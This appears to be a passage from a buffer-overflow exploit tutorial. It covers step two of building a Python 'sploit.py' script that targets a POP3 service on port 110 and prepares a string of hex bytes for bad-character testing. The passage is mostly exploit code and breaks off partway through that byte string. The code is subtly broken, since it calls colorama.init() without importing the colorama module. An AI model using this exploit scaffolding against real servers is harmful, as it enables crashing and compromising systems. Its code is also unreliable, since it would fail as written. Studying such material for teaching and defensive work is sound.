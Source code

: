 ### [2] Modify your sploit script.

*Note: Most of this step is only necessary if you're building your script from scratch, incrementally. The sploit.py script template above already contains the `chars` string. If using the template in this guide, you only have to assign the value of `chars` to the `sploit` variable.*

You'll initialize variable `chars`, which holds a string containing all those hex values. You'll then assign the contents of `chars` to the familiar variable `sploit` before adding in the "splat" offset (just to ensure you at least hit the criticala byte value and crash the application--later on the offset is refined and used literally as an offset).

```
root@kali:~# vim sploit.py
```

```
#!/usr/bin/python

import socket, sys

#################### gsstyle
from colorama import Fore, Back, Style
colorama.init()

def printinfo(output):
  print Style.DIM + "[*] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printresult(output):
  print Style.BRIGHT + Fore.BLUE + "[>] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printalert(output):
  print Style.BRIGHT + Fore.RED + "[!] ",
  for field in output:
    print field,
  print Style.RESET_ALL

#################### Help section
if len(sys.argv) != 2:
  print "Usage: ./sys.argv[0] <ip.addr>"
  print
  print "ARGUMENT        FORMAT  DESCRIPTION"
  print " <ip.addr>       IPv4    IP address of host you want to test."
  print
  sys.exit(0)

#################### Variables
ip = sys.argv[1]   # string argument
port = 110         # int

# Initialize string of UTF hex values \x01 thru \xff for badchar testing:
chars  =     "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
chars += "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
chars += "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
chars += "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
chars += "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
```